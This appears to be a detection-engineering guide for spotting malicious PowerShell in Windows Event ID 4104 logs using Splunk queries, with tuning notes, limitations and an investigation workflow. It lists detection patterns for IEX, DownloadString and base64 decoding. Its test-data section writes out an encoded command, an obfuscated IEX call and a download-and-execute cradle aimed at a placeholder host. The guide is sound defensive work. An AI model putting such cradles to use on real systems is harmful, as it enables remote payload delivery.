






# Detection: PowerShell Script Block Logging (Event ID 4104)

## Objective

Detect malicious PowerShell activity by analyzing script block logs that capture executed code.

---

## Detection Metadata

- Detection Name: PowerShell Script Block Analysis
- Severity: High
- MITRE ATT&CK:
  - T1059.001 (PowerShell)
  - T1027 (Obfuscated Files or Information)
  - T1105 (Ingress Tool Transfer)

  ---

## Data Source

- Windows Event Logs
- Event ID: 4104
- Log Source: Microsoft-Windows-PowerShell/Operational

---

## Step 1 — Validate 4104 Logs

Verify that PowerShell script block logging is generating events.
This step verifies that PowerShell Script Block Logging (Event ID 4104) is enabled and events are being ingested into Splunk.

The presence of these logs confirms visibility into executed PowerShell code, which is critical for detecting fileless attacks and obfuscated scripts.

```spl
index=main EventCode=4104
| stats count by host
```

---

## Step 2 — RAW VIEW

View actual PowerShell code executed.
This step inspects the raw script block content captured in Event ID 4104.

Unlike Sysmon process logs, these events contain the actual PowerShell code executed, enabling deep inspection of attacker behavior.

```spl
index=main EventCode=4104
| table _time host Message
```


---

## Step 3 — ENCODED

Identify base64 encoded PowerShell payloads.
This step detects PowerShell commands that use base64 encoding techniques.

Attackers commonly use encoded payloads to evade detection and hide malicious intent. Functions such as `FromBase64String` and `EncodedCommand` are strong indicators of suspicious activity.

```spl
index=main EventCode=4104
| search Message="*FromBase64String*" OR Message="*EncodedCommand*"
| table _time host Message
```


---

## Step 4 — Detect Suspicious Functions

Detect common attacker techniques.
This step identifies commonly abused PowerShell functions used in attacks.

Functions such as `Invoke-Expression (IEX)`, `DownloadString`, and `Invoke-WebRequest` are frequently used to execute remote payloads and establish command and control.

```spl
index=main EventCode=4104
| search Message="*IEX*" OR Message="*Invoke-Expression*" OR Message="*DownloadString*" OR Message="*Invoke-WebRequest*"
| table _time host Message
```


---

## Step 5 — Detect Obfuscation Patterns

Look for obfuscated scripts.
This step focuses on detecting obfuscation techniques used by attackers.

Indicators such as backticks (`), string concatenation (+), and character-based encoding are commonly used to bypass signature-based detections.

```spl
index=main EventCode=4104
| search Message="*IEX*" OR Message="*ExecutionPolicy Bypass*" OR Message="*DownloadString*"
| table _time host Message
```


Note:
Certain obfuscation techniques such as variable-based execution 
(e.g., $cmd="I"+"EX"; &($cmd)) may not always be captured in PowerShell 
Script Block Logging due to runtime interpretation.

Therefore, detection focuses on observable indicators such as:
- IEX
- DownloadString
- ExecutionPolicy bypass

---

## Step 6 — High-Fidelity Detection

Combine multiple suspicious indicators.
This step combines multiple suspicious indicators to create a high-confidence detection.

By correlating encoded payloads, script execution, and suspicious functions, this detection reduces false positives and highlights high-risk PowerShell activity.

```spl
index=main EventCode=4104
| search Message="*IEX*" OR Message="*DownloadString*" OR Message="*FromBase64String*"
| stats count values(Message) as scripts by host
```



## Final Detection Summary

The final detection aggregates suspicious PowerShell script block activity using key indicators such as:
- Invoke-Expression (IEX)
- DownloadString
- Base64 decoding patterns

The results show multiple suspicious script executions on the host, indicating potential malicious or obfuscated PowerShell activity.

This approach allows analysts to quickly identify affected hosts and review associated script content for further investigation.


---

## Multi-Stage Correlation

To improve detection accuracy, this detection can be correlated with Sysmon Event ID 1 (Process Creation).

By linking suspicious script content (Event ID 4104) with PowerShell execution events, analysts can identify:

- Initial execution
- Payload delivery
- Script execution behavior

This multi-stage approach aligns with real SOC detection strategies and improves confidence in identifying true attacks.

---

## Investigation Workflow

1. Identify the affected host and user
2. Review the full script content from Event ID 4104
3. Check for encoded or obfuscated commands
4. Correlate with Sysmon process creation events
5. Investigate any external connections or downloads
6. Determine if the activity is legitimate or malicious

---

## Incident Scenario (Case Study)

During testing, a simulated attack was executed using encoded PowerShell commands and remote script execution.

The detection successfully identified:

- Encoded payload execution
- Use of Invoke-Expression (IEX)
- Remote payload retrieval via DownloadString

This demonstrates the effectiveness of script block logging in detecting fileless attacks.

---

## Detection Rationale

PowerShell Script Block Logging provides visibility into the actual code executed.

This allows detection of:

- Fileless malware
- Obfuscated scripts
- Encoded payloads
- Remote payload execution


---

## Detection Validation

Validated using:

- Encoded PowerShell payloads
- IEX execution
- DownloadString attack simulation

---

## Noise Considerations

Legitimate scripts may trigger alerts:

- Admin automation scripts
- DevOps pipelines
- Software installation scripts

---

## Detection Tuning Strategy

- Exclude known administrative scripts
- Baseline normal PowerShell usage
- Apply thresholds for repeated activity
- Filter trusted users or service accounts

Example:
```spl
| where count > 2
```
---

## Detection Limitations

- Requires Script Block Logging to be enabled
- High volume of logs may impact performance
- Advanced obfuscation techniques may evade simple pattern matching


---

## Impact

This detection enhances visibility into PowerShell activity and enables early identification of fileless attacks, significantly improving SOC detection capabilities.

---

## BEFORE YOU RUN ANY QUERY

### CRITICAL REQUIREMENT

You must enable **PowerShell Script Block Logging**

---

### ENABLE LOGGING (VERY IMPORTANT)

Run in PowerShell **as Administrator**:

```powershell
Set-ItemProperty -Path "HKLM:\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging" `
-Name EnableScriptBlockLogging -Value 1
```

```powershell
Restart-Service WinEventLog
```


### GENERATE TEST DATA

Run these commands to generate logs:

1. Encoded command

```powershell
powershell -enc SQBFAFgAIAAoAEcAZQB0AC0AUABhAHIAbwBjAGUAcwBzACkA
```

2. IEX execution
```powershell
IEX (New-Object Net.WebClient).DownloadString('http://example.com')
```

3. Obfuscation
```powershell
$cmd="I"+"EX"; &($cmd) "Write-Output 'Test'"
```

